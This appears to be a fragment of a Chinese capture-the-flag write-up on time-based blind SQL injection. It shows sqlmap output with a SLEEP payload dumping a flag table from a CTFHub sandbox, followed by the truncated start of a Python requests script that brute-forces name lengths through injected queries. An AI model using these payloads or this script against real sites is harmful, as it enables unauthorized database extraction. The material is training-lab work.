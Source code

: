 ```mysql
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1 AND (SELECT 5517 FROM (SELECT(SLEEP(5)))iOaW)
---
[17:12:34] [INFO] the back-end DBMS is MySQL
web application technology: PHP 7.3.14, OpenResty 1.21.4.2
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[17:12:34] [INFO] fetching columns for table 'flag' in database 'sqli'
[17:12:34] [INFO] resumed: 1
[17:12:34] [INFO] resumed: flag
[17:12:34] [INFO] fetching entries for table 'flag' in database 'sqli'
[17:12:34] [INFO] fetching number of entries for table 'flag' in database 'sqli'
[17:12:34] [WARNING] time-based comparison requires larger statistical model, please wait.............................. (done)
[17:12:36] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] y
1
[17:12:47] [WARNING] reflective value(s) found and filtering out of statistical model, please wait
.............................. (done)
[17:13:00] [INFO] adjusting time delay to 1 second due to good response times
ctfhub{207f88dd129df77130f7c6e9}
Database: sqli
Table: flag
[1 entry]
+----------------------------------+
| flag                             |
+----------------------------------+
| ctfhub{207f88dd129df77130f7c6e9} |
+----------------------------------+

[17:15:14] [INFO] table 'sqli.flag' dumped to CSV file '/home/kali/.local/share/sqlmap/output/challenge-d8bcb765b7ab40a6.sandbox.ctfhub.com/dump/sqli/flag.csv'
[17:15:14] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/challenge-d8bcb765b7ab40a6.sandbox.ctfhub.com'

[*] ending @ 17:15:14 /2024-01-20/
```

脚本

```python
import requests


class InjeSql(object):
    def __init__(self, url, payload_length, payload_Data, name, conditions, name_length, max_len=12):
        self.url = url
        self.payload_length = payload_length
        self.payload_Data = payload_Data
        self.max_len = max_len  # 数据库名、表名等长度上限
        self.conditions = conditions
        self.name = name
        self.name_length = name_length

    def getLength(self):
        for i in range(1, self.max_len):
            payload = self.payload_length % i
            r = requests.get(self.url + payload + '%23')

            if self.conditions in r.text:
                self.name_leng = i
                print(self.name+"的长度是", i)
```
